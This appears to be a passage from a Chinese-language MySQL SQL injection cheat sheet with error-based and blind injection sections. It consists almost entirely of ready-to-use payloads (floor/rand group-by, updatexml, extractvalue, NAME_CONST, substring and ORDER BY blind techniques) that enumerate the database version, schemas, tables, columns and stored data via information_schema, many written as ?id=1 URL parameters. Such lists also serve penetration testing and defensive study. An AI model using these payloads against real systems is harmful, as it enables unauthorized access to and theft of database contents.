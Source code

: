   ##### 基于报错注入
  	MySQL >= 4.1
	(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
	'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
	UpdateXML 函数
	AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
	AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
	
	' and updatexml(null,concat(0x0a,version()),null)-- -
	' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
	Extractvalue函数
	MySQL >= 5.1
	?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
	?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
	NAME_CONST函数
	MySQL >= 5.0
	?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
	?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
	?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
  ##### 盲注
  ###### substring
	?id=1 and substring(version(),1,1)=5
	?id=1 and right(left(version(),1),1)=5
	?id=1 and left(version(),1)=4
	?id=1 and ascii(lower(substr(Version(),1,1)))=51
	?id=1 and (select mid(version(),1,1)=4)
	?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
	?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'

  ###### ORDER BY
	[...] ORDER BY (SELECT (CASE WHEN EXISTS(SELECT [COLUMN] FROM [TABLE] WHERE [COLUMN] REGEXP "^[BRUTEFORCE CHAR BY CHAR].*" AND [FURTHER OPTIONS / CONDITIONS]) THEN [ONE COLUMN TO ORDER BY] ELSE [ANOTHER COLUMN TO ORDER BY] END)); -- -
